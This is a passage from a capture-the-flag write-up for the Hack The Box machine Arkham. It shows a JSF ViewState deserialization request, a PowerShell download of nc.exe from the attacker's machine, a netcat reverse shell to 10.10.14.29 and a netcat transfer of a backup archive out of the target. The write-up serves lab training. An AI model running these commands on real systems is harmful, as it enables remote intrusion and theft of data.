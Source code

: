 ```python
		req_data={"j_id_jsp_1623871077_1:email": "baudy@baud.com", "j_id_jsp_1623871077_1:submit": "SIGN UP", "j_id_jsp_1623871077_1_SUBMIT": "1"}
		data['javax.faces.ViewState'] = getPayload(cmd)
		r = requests.post(url, cookies=cookies, data=req_data, headers=req_headers)
```

This script gives us a blind shell on the box, we are able to execute any operation we want but it's still uncomfortable, and blind, so to have a proper shell I downloaded nc.exe on the box using Invoke-WebRequest:

```shell-session
┌─[root@parrot]─[/home/baud/server]
└──╼ # php -S 0.0.0.0:9090 -t .
┌─[root@parrot]─[/home/baud/arkham]
└──╼ # nc -lvnp 9999
```

```shell-session
> powershell iwr http://10.10.14.29:9090/nc.exe -OutFile ./nc.exe
> nc.exe -e cmd 10.10.14.29 9999
```

![img](/images/arkham-writeup/12.png)

With this we finally have a shell as Alfred and can read our first flag, then it's time for some local enumeration. Aside from Alfred and Administrator there's another user on the system: Batman. Unfortunately his directory is out of our reach.

![img](/images/arkham-writeup/13.png)

---

## Horizontal privilege escalation: becoming Batman

Inside Alfred's downloads directory there's a backups folder containing a backup.zip file, because I'm lazy and meterpreter executables are immediately detected by an angry Defender I'm going to use nc.exe to transfer this file locally:

```shell-session
# On Arkham:
nc.exe 10.10.14.29 4444 < c:\users\alfred\downloads\backups\backup.zip
# On local box:
nc -lvp 4444 > backup.zip
```
![img](/images/arkham-writeup/14.png)

After unzipping the file it turns out the content is a .ost file, so an Outlook mail archive, so to say. On Linux we can open it using readpst and it will extract the emails it finds:

![img](/images/arkham-writeup/15.png)

The only email it found was in the Drafts folder and we can read it by catting the Drafts file created by readpst. The mail contains an image as attachment which is encoded in Base64 and the body of the message tells us this email was supposed to be sent to Master Wayne because he keeps forgetting his password:
